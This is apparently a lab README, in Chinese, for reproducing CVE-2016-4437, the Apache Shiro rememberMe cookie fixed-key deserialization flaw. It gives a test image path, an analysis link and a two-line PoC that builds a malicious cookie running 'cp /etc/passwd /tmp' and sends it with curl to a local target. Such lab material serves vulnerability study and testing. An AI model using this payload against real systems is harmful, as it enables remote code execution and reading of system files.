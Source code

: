 ## CVE-2016-4437 - Shiro rememberMe cookie 固定秘钥反序列化漏洞

测试镜像

* src/shiro/1.2.4/

参考链接

* [Apache Shiro Java 反序列化漏洞分析](http://blog.knownsec.com/2016/08/apache-shiro-java/)

Poc

```
# 使用 jdku21 gadget

python2.7 /root/build-cookie.py "cp /etc/passwd /tmp"
curl 127.0.0.1/shiro/ -H "Cookie: $(cat /tmp/cookie.txt)"
```

